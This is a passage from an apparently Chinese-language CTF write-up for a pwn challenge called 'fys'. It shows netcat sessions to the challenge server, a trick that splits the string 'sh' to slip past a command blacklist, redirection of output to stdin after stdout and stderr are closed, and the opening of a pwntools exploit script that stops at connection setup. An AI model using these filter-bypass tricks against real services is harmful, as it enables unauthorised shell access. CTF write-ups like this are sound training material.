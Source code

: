   ```shell
  # shell 2
  % nc 47.103.214.163 21000 | grep 1968846
  ls -ali /tmp
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 0x8eb79f31
  ```

  ```shell
  # shell 1
  % nc 47.103.214.163 21000
  find yourself
  ls -ali
  total 8
  1968846 drwxr-xr-x   2 1000 1000 4096 Jan 27 12:50 .
  1968682 drwxrwxrwx 152    0    0 4096 Jan 27 12:50 ..
  where are you?
  /tmp/0x8eb79f31
  ```

#### 0x2 check2

- 过滤的字符(串)

  ```c
  sh cat * & | > <
  ```

- 这个简单多了，字符串拼接即可绕过

  ```shell
  x=h;s$x
  ```


#### 0x3 close(1) and close(2)

- 关闭了`stdout`和`stderr`，即使`cat flag`也得不到输出`u_u`

- 于是，重定向，把`stdout`和`stderr`重定向到`stdin`

  ```shell
  cat /flag 1>&0
  ```

#### 0x4 fini

- 这题在`check1`卡了好久，第三天才想到`ls -i`，我太菜了。

#### 0x5 exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './fys'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)
```